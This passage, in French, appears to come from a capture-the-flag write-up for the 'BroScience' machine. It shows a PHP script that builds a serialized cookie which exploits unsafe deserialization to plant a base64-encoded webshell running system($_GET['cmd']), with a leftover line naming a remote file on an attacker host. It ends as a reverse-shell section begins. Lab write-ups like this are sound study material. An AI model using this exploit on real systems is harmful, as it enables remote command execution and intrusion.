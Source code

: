 ```php
    // création de l'objet à serializer
    $payload_path = "/var/www/html/rebrec2.php";
    $rfi = 'http://10.10.24.179/rebrec-rs.php';  
  
    $payload = '<?php system($_GET["cmd"]);';
    $b64_payload = base64_encode($payload);
    $rfi = 'php://filter/convert.base64-decode/resource=data://text/plain,' . $b64_payload;
    

    $obj = new AvatarInterface();
    $obj->tmp = $rfi;
    $obj->imgPath = $payload_path;
    
    $up_cookie = base64_encode(serialize($obj));
    println('Cookie à "prefs" à mettre dans un une requête GET /index.php après avoir été authentifié :');
    println($up_cookie);
    println('');
    unserialize(base64_decode($up_cookie));
    println(file_get_contents($payload_path));
    
?>
```

On insère ensuite ce cookie dans une requête interceptée à l'aide de Burp :

![BroScience-10](../../BroScience-10.png)

# Obtention d'un shell

Pour une raison non maîtrisée, les reverse shell PHP ne semblaient pas fonctionner correctement, c'est pourquoi le code présenté ci-dessus n'est un "Webshell" très basique.

On l'utilise pour obtenir un reverse shell de la manière suivante :
